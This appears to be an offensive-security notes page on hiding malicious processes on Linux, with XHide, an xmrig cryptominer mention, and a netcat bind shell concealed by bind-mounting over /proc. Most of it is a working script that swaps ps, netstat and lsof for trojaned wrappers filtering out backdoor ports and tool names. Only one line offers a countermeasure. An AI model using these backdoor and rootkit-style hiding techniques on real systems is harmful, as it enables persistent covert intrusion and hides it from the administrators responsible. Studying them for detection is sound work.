


# Hiding Processes

## XHide



#### you can mask/camouflage a process and give Sys Admins headaches.

```
gcc -o xhide xhide.c
```

Below is proof of concept with a dummy xmrig crypto mining binary, these are becoming extremely common and widely used by attackers that want to use your resources and mine cryptocurrency for themselves.


#### What is xmrig? XMRig is a crypto currency miner, users are often infected by attackers that want to make money at the expensive of their host, it can mine Monero. XMRig could cause computer overheat and poor performance.




file contents for proof of concept



After I executed xmrig64 a few processes appeared this can be seen below.


## Process Hiding Techniques

### Listening sockets, hiding from ps and lsof <a href="#hideprocesses" id="hideprocesses"></a>

```
mkdir /tmp/empty
/bin/nc.traditional -l -p 31337 -e /bin/sh &
ps aux | grep $!
sudo mount --bind /tmp/empty /proc/$!
ps aux | grep $!
```

#### Countermeasure:&#x20;

`netstat -tulpe` and checking `cat /proc/$$/mountinfo` for suspicious mounts over `/proc`

### Script:

Run the script to protect the backdoor from discovery through **ps**, **netstat** or **lsof**

```
#!/bin/bash

#netstat
#------------------------
touch /tmp/.netstat.c

cat <<EOF >> /tmp/.netstat.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/netstat \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.netstat.c -o /usr/local/bin/netstat

rm /tmp/.netstat.c


#ps
#------------------------
touch /tmp/.ps.c

cat <<EOF >> /tmp/.ps.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/ps \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.ps.c -o /usr/local/bin/ps

rm /tmp/.ps.c


#lsof
#------------------------
touch /tmp/.lsof.c

cat <<EOF >> /tmp/.lsof.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/usr/bin/lsof \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.lsof.c -o /usr/local/bin/lsof

rm /tmp/.lsof.c
```
